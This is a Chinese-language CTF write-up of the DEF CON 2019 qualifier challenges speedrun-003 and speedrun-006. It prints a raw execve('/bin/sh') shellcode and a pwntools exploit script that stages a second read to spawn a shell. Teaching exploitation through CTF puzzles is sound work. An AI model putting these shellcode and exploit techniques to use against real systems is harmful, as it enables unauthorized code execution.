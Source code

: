 ```yaml
---
layout:     post
title:      "Defcon ctf 2019之我好菜"
date:       2019-05-14
author:     "Ambi9u0us"
catalog: true
tags:
    - ctf
    - Writeup
    - speedrun
    - defcon ctf 2019
typora-root-url: ..
---
```


# Defcon ctf 2019 之菜鸟爬山

## 前言

这次defcon ctf 2019，尝试去做了一下，然后发现两眼一抹黑，看了为数不多的几道题，最后都没有做出来，最后只做了两道speedrun，分别是003和006，两道都是关于shellcode构造的题，好歹是学了点东西，权作总结。

## speedrun-003

首先使用IDA打开文件，分析可以发现主要流程在函数`get_that_shellcode()`中：

![1557815993760](/img/in-post/1557815993760.png)

大意就是读取用户输入的30字节大小的字符串，然后保证前15个字符与后15个字符异或的值相等，然后就执行该段shellcode。

这里的重点在于，当前29个字节异或的值与最后一个字节值相等时，必定满足该条件，所以只需要找一段小于30字节的shellcode就可以了，这里找到了一段执行execv(‘/bin/sh’,0,0)的shellcode：

```c
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

将shellcode补足30个字节，并且计算前29个字节异或的值填到最后一个字节，使用pwntools编写脚本，即可getshell。

## speedrun-006

使用IDA打开文件，主要函数是`get_that_shellcode()`：

![1557816501982](/img/in-post/1557816501982.png)

用户要输入26个字节大小的shellcode，然后会进入函数`shellcode_it()`函数：

![1557816599412](/img/in-post/1557816599412.png)

这个函数主要是对输入的26个字节进行处理，最后放到了一段总长度为78字节的区域，然后运行这一段区域的代码，值得注意的是，前48个字节主要是进行了将寄存器统统置0的操作，后面30个字节是将26个字节中间插入4个0xcc，将其截断，分割成5，4，9，8四个部分，所以要解决的问题就是两点：

- shellcode分片构造(比较好构造，就不多做介绍)
- 消除寄存器被置0的影响

由于寄存器被置0，这就不得不提syscall这个指令的骚操作，这种方法主要是当寄存器的值都为0时，执行syacall会将rip的值给到rcx，所以分片构造时，合理利用rcx实现syscall_read()的效果，就可以不受字节数限制，发送新的获取shell的shellcode了：

```python
shellcode=asm("""
	syscall;
	jmp xx;
	nop;
	nop;
	xx:
	jmp yy;
    ret
    nop
    yy:
    xor rsi,rcx;
    xor edx,ecx;
    syscall
	"""
,os="linux"
,arch="amd64")
# 0f05eb029090eb02c3904831ce31ca0f05
shellcode=shellcode.ljust(26,'\x01') 
p.recvuntil("ride")
p.send(shellcode)

payload="\x90"*0x30+asm("xor rsp,rcx;add rsp,0x500",os="linux",arch="amd64")+asm(shellcraft.amd64.sh(),os="linux",arch="amd64")
p.send(payload)
p.interactive() #get the shell
```

这里主要解释xor rsi,rcx;xor edx,ecx;这两行汇编代码，这里是实现了调用`syscall_read(eax,rsi,edx,rdi)`，其中eax已经为0，代表`syscall_read()`的系统调用号，rsi则是read读到的数据存储的起始地址（这里对应syscall第一次执行时的位置），edx则是对应长度（对应syscall所处内存地址普遍很大，足够读取shellcode），rdi为0代表是从标准输入读入数据，所以我们才能再次传入shellcode执行获得shell。

这里可以通过练习`star ctf 2018`的`primepwn`来熟悉这一方法，[题目地址](<https://github.com/sixstars/starctf2018/tree/master/pwn-primepwn>)以及对该题目的一个解法讲解的博客[文章地址](<http://eternalsakura13.com/2018/04/27/star_primepwn/>)可以点击进行查看。